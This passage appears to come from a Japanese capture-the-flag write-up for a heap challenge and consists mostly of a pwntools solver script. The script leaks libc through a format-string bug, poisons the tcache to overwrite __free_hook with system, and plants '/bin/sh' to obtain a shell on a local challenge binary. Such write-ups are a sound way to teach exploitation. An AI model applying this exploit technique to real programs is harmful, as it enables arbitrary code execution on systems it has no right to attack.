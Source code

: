 あとは、`/bin/sh`が書き込まれている領域`chestnut`(list[1])をfreeすると、
`__free_hook(list[1])` -> `system("/bin/sh")`となって、Shellを取ることができる。

# Solver
```python
from pwn import *

file = "./chall"
libc = ELF("./libc-2.27.so")
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = process(file)

def catch(index: str, color: str):
    io.recvuntil("command?")
    io.sendlineafter("> ", "1")
    io.recvuntil("index?")
    io.sendlineafter("> ", index)
    io.recvuntil("color?(bay|chestnut|gray)")
    io.sendlineafter("> ", color)

def naming(index: str, name: bytes):
    io.recvuntil("command?")
    io.sendlineafter("> ", "2")
    io.recvuntil("index?")
    io.sendlineafter("> ", index)
    io.recvuntil("name?")
    io.sendlineafter("> ", name)

def show(index: str):
    io.recvuntil("command?")
    io.sendlineafter("> ", "3")
    io.recvuntil("index?")
    io.sendlineafter("> ", index)

def release(index: str):
    io.recvuntil("command?")
    io.sendlineafter("> ", "5")
    io.recvuntil("index?")
    io.sendlineafter("> ", index)

# libc leak by FSB
catch("0", "bay")
naming("0", "%11$p")
show("0")

libc.address = int(io.recvline().strip(), 16) - 231 - libc.sym['__libc_start_main']
print(f'addr_libc: {libc.address:x}')


release("0") # tcache: bay -> NULL
# fd = __free_hook
naming("0", p64(libc.sym['__free_hook']))
#=> tcache: bay -> __free_hook -> NULL

# chestnut(addr) == bay(addr)
catch("1", "chestnut") # tcache: __free_hook -> NULL
naming("1", b"/bin/sh") # list[1]->name = "/bin/sh"

catch("2", "gray") # gray == __free_hook
naming("2", p64(libc.sym['system'])) #__free_hook -> system

```